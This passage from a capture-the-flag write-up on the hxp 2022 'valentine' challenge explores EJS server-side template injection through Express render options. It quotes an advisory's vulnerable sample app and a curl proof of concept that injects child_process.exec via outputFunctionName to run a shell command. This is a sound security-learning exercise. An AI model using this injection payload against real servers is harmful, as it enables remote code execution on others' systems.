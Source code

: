 This feature is also confirmed inside the official EJS documentation [^5], but it will not work anymore for unsafe options like the one shown by Snyk.  

```js
app.get('/', (req, res) => {
  res.render('index', {foo: 'FOO', delimiter: '?'});
});
```

We can try passing some options as separate fields or even as object properties, but it doesn't produce any result.

>[!danger]- Spoiler
>You can read why it didn't work at the chapter [Cache and custom delimiters](valentine.md#Cache%20and%20custom%20delimiters)

[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data

![](../../zzz_res/attachments/valentine6.png)

This other article from the GitHub security lab [^6] completely caught my attention. It talks about an RCE vulnerability in EJS, and the vulnerable code used as a sample has the same features as our challenge. The PoC provided is also very similar to the one we were creating, but it was created for EJS 3.1.5, while the version we are using is the 3.1.8.

```js
const express = require('express')
const app = express()
const port = 3000
 
app.set('views', __dirname);
app.set('view engine', 'ejs');
app.use(express.urlencoded({ extended: false }));
app.get('/', (req, res) => {
   res.render('index', req.query)
})
 
app.listen(port, () => { })
module.exports = app;
```

Proof of concept should create a file via touch named /tmp/GHSLPayload:

```bash
curl 'http://localhost:3000/?message=foo&settings\[view%20options\]\[outputFunctionName\]=x%3Bprocess.mainModule.require(%27child_process%27).exec(%27bash%20-c%20%22touch%20%2Ftmp%2FGHSLPayload%22%27)%3Bx'
```

[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/

If we try the PoC against our server it doesn't work, but it is still a great indicator that we are close to the solution.


[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/